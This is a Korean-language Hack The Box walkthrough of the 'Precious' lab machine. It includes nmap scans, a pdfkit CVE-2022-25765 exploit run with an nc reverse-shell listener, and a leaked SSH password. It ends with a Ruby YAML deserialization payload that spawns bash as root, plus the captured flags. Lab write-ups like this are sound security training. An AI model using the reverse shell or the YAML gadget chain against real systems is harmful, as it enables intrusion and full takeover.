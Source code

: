
# HTB Walkthrough - Precious

**Machine:** Precious  
**Target IP:** 10.129.99.246  

---

## Enumeration

### Nmap Scan
```bash
nmap -sV -sC -oA nmap/Precious 10.129.99.246
```
**Open Ports:**
- 22/tcp (OpenSSH 8.4p1 Debian)
- 80/tcp (nginx 1.18.0)

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 -oA nmap/fullTcp 10.129.99.246
```

### /etc/hosts 설정
```
10.129.99.246   precious.htb
```
`http://precious.htb` 접속 → 웹페이지에서 URL을 받아 PDF로 변환해주는 기능 발견

---

## Task 1 - Web Server Software
**Q:** nginx is running with what additional software?  
**A:** `Phusion Passenger` (Burp에서 Server 헤더 확인)

---

## Task 2 - Scripting Language
**Q:** Which HTTP header reveals the scripting language?  
**A:** `X-Runtime`

---

## Task 3 - Ruby PDF Library
**Q:** Which Ruby library is used for PDF generation?  
**A:** `pdfkit`

---

## Task 4 - CVE
**Q:** Which 2022 CVE applies to pdfkit?  
**A:** `CVE-2022-25765`  
출처: [exploit-db #51293](https://www.exploit-db.com/exploits/51293)

---

## Task 5 - Bundler 설정 디렉토리
```bash
cd /home/ruby
ls -al
```
**A:** `.bundle`

---

## Initial Foothold (User Access)

exploit.py 실행:  
```bash
nc -nlvp 9999
python3 exploit.py -s 10.10.14.156 9999 -w http://precious.htb/ -p url
```

리버스 셸 연결 후 `.bundle/config` 에서 henry의 크리덴셜 발견:
```
henry:Q3c1AqGHtoI0aXAYFH
```

```bash
ssh henry@10.129.99.246
Password: Q3c1AqGHtoI0aXAYFH
```

### User Flag
```bash
cat /home/henry/user.txt
```
**Flag:** `ba2f03d84f25b774b3b262c153ff72a0`

---

## Task 7 - Sudo 권한 확인
```bash
sudo -l
```
**A:** `/usr/bin/ruby /opt/update_dependencies.rb`

---

## Task 8 - 사용자 입력을 받는 파일
```ruby
def list_from_file
  YAML.load(File.read("dependencies.yml"))
end
```
**A:** `dependencies.yml`

---

## Root Privilege Escalation

루트 권한으로 YAML 로드가 가능한 Ruby 스크립트 존재. 이를 이용해 RCE 가능.

### Exploit Payload (dependencies.yml):
```yaml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: /bin/bash
        method_id: :resolve
```

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

### Root Flag
```bash
cat /root/root.txt
```
**Flag:** `18c457ee30e36677778fe36b29518c8d`

---

## 정리
- 초기 취약점: `PDFKit` RCE via URL injection
- 사용자 권한: `.bundle/config`에서 비밀번호 유출
- 루트 권한: `update_dependencies.rb`가 `YAML.load`를 통해 루트로 RCE 가능
